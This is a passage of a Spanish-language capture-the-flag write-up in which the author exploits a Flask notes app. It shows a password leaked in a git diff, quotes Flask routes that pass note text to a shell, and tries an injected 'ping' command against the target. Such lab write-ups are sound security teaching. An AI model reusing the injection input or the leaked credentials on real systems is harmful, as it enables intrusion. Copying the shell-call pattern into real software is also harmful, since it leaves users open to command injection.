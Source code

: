 ```console
< app.config['MYSQL_PASSWORD'] = 'Nildogg36'
---
> app.config['MYSQL_USER'] = 'DB_user'
> app.config['MYSQL_PASSWORD'] = 'DB_password'
...
```
Conseguimos las creds -> root:Nildogg36

------------------------

# Parte 4: Analizando la aplicacion

Aparte de esto, la segunda versión el archivo app.py es mucho mas extenso.
Este archivo es el codigo fuente en flask de la aplicación. Buscaremos funciones peligrosas
```console
└─$ cat app.py | grep -IEn "exec|system|os|subprocess" | grep -vE "cur|Close" 
# Hemos exlcuido tanto cur (que son operaciones sql) como CLose que son mensajes "Close connection"
285:            subprocess.run(command, shell=True, executable="/bin/bash")
309:                    subprocess.run(command, shell=True, executable="/bin/bash")
```
Llaman la atencion esas dos lineas.
El codigo entero (parte vulnerable) seria tal que asi:
```python
@app.route('/export_note_local/<string:id>', methods=['GET'])
@is_logged_in
def export_note_local(id):
    if check_VIP(session['username']):
        cur = mysql.connection.cursor()
        result = cur.execute("SELECT * FROM notes WHERE id = %s and author = %s", (id,session['username'
        if result > 0:
            note = cur.fetchone(); rand_int = random.randint(1,10000)
            command = f"node misc/md-to-pdf.js  $'{note['body']}' {rand_int}"
            subprocess.run(command, shell=True, executable="/bin/bash")
            return send_file(attachment_dir + str(rand_int) +'.pdf', as_attachment=True)

@app.route('/export_note_remote', methods=['POST'])
@is_logged_in
def export_note_remote():
    if check_VIP(session['username']):
        url = request.form['url']
        status, error = parse_url(url)
        if (status is True) and (error is None):
            r = pyrequest.get(url,allow_redirects=True)
            rand_int = random.randint(1,10000)
            command = f"node misc/md-to-pdf.js  $'{r.text.strip()}' {rand_int}"
            subprocess.run(command, shell=True, executable="/bin/bash")
```

Analizando el codigo tanto en /export_note_local como /export_note_remote se ejecuta el comando:
```md-to-pdf.js {nota}```

Al ser un comando ejecutado a nivel de sistema y tener nosotros el control de que nota queremos, podriamos hacerun OS command inyection.
Pruebo con local  ```/export_note_local/2; ping -c 1 10.10.14.15``` y me da un internal server error.
Con remote tienes que poner tu la nota, Test:
```console
└─$ echo "Mariscos Recio" > note.md
└─$ sudo python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.160 - - [27/Oct/2022 10:22:09] "GET /note.md HTTP/1.1" 200 -
```
----------------------
